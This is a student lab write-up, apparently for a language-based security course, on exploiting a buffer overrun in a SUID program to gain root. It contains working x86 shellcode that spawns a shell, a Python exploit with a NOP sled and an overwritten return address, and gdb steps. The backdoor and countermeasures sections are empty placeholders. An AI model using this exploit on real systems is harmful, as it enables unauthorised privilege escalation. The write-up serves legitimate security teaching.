 # Language-based Security

## Lab 2 - Buffer Overruns

### Part 1 : Gaining root access

In order to gain root access to this machine, we are going to use the `addhostalias` executable file, which seems to be vulnerable to buffer overruns. In order to exploit this, we are going to go through several steps :
- analyse the vulnerability in the code
- use gdb to debug and analyse how the program behave
- find a way to exploit it, in our case we'll use Python which allow us to have our root shell more easily, since it's a high level language, we can focus on the content of our malicious code instead of how to generate it


Firstly let's have a brief explanation of how the stack works in this type of program. In order to maintain consistency during program execution, Linux OS 
```
       0x00000000

        4 bytes
< --------------------->


 ----------------------
|   RETURN ADRESS      | 
 ----------------------
|    BASE POINTER      |
 ---------------------- 
|                      |
|                      |
|                      |
|                      |
|                      |
|       STACK          |
|    (256 bytes)       |
|                      |
|                      |
|                      |
 ----------------------

       0xffffffff


```

```python
# run a shell on local machine
shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
             +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
             +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
             +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
             +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
             +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
             +'\x90\x90\x90\x90\x90\x90\x90\x90\x90')


# NOP signal, tells the CPU to go to the next instruction
nop = '\x90'
nops = nop*181

# estimated area of the end of the stack
nop_adress = '\x10\xf9\xff\xbf'

# 181 + 75 + 2 + 4 = 262 + 2 characters in printf = 264 bytes of data (instead of 256, so it will overwrite base pointer and return address)
print nops+shellcode,nop*2,nop_adress


```

![How to use GDB to craft our exploit](/assets/lab2/gdb-demo.png)


```

 ----------------------
|   RETURN ADRESS      | <------- now redirects approximately to the end of the stack
 ----------------------
|    BASE POINTER      | <------- not important in our case, but it's now overwritten
 ---------------------- 
|                      |
|       MALICIOUS      |
|         CODE         |
|                      |
|         ...          |
|         NOP          |
|         NOP          |
|         NOP          |
 ----------------------

```

The SUID bit is set so the program is vulnerable

`addhostalias $(python gainr00t.py)`

allow gaining root access using our python script

`gdb --args addhostalias $(python -c 'print "\x41"*200') ttt ttt`

allow entering debugging mode

`(gdb) break fopen`

avoid having a permission denied. If we don't do that an error will occur during debugging.

`(gdb) run`

`(gdb) x/100x $sp`

This command displayed 100 words in our memory, allow to see pattern


### Part 2 : Create a Backdoor

lorem ipsum

### Part 3 : Countermeasures

- Canaries : ...
- NX bit : ...
- ASLR : ...


### Sources that helped us gaining root access on the machine

1. [Buffer Overflow Attack, Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo&t=589s)
2. [GDB Petit Tutoriel, Daniel Hirschkof](http://perso.ens-lyon.fr/daniel.hirschkoff/C_Caml/docs/doc_gdb.pdf)
3. [Le Débogueur GDB, Anne Canteaut](https://www.rocq.inria.fr/secret/Anne.Canteaut/COURS_C/gdb.html)






